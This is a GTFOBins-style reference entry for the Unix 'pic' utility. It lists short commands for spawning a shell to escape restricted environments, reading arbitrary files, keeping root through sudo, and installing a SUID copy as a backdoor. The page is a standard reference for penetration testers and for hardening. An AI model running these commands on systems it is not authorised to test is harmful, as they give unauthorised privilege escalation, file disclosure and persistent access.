 # GTFOBin: pic

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
pic -U
.PS
sh X sh X
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The output is prefixed with a some content as a header.

```
LFILE=file_to_read
pic $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo pic -U
.PS
sh X sh X
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which pic) .

./pic -U
.PS
sh X sh X
```